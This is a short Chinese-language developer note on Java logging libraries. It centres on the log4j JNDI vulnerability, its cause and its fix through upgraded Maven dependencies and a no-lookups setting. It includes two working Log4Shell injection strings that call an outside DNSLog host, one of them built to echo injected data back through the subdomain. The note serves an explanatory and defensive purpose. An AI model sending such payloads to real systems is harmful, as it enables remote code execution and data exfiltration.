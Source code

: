 ## java日志库
[Java主流日志库](https://www.cnblogs.com/mingyue1818/p/5978424.html)
1. log4j
   草率引入已知有远程执行风险的JNDI，默认启用并且长期没有人关注是问题之一，但我认为最根本的还是来自于不可信任来源的数据（用户输入）最终在没有任何监管的情况下被当作了必须被信任的数据（被解析+执行的命令）。在现代编程实践中，我们必须认识到，因为各类动态特性的引入，数据和代码并不能被严格区分，不可信任的数据应该像不可信任的代码一样被谨慎处理，而目前的编译系统并不能有效区分数据来源。

   信息安全
    DNSLog
        免费分配一个二级域名
        1. 记录这个二级域名做DNS解析过程中的域名和IP映射关系的请求记录。 ${jndi:ldap://gc46bp.dnslog.cn}    
        2. 对注入获得的信息进行回显 ${jndi:ldap://{}.gc46bp.dnslog.cn}

    [修复办法](https://blog.csdn.net/derstsea/article/details/121918902)

```xml
<!-- https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-to-slf4j -->
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-to-slf4j</artifactId>
    <version>2.17.1</version>
</dependency>
<!-- https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-api -->
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>2.17.1</version>
</dependency>
```
```yml
log4j2:
  formatMsgNoLookups: true
```

2. java.loggging 
3. logback